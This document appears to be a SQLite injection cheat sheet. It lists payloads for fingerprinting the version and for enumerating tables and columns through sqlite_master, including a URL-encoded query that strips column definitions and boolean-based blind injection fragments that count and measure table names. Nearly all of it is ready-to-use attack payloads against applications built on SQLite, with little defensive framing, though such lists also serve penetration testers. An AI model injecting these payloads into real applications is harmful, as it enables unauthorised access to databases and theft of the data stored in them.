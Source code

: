 ## SQLite comments

```
--
/**/
```

## SQLite version

```
select sqlite_version();
```

## String based - Extract database structure

```
SELECT sql FROM sqlite_schema
```

## Integer/String based - Extract table name

```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

Use limit X+1 offset X, to extract all tables.

## Integer/String based - Extract column name

```
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'
```

For a clean output

```
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

## Boolean - Count number of tables

```
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```

## Boolean - Enumerating table name

```
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```
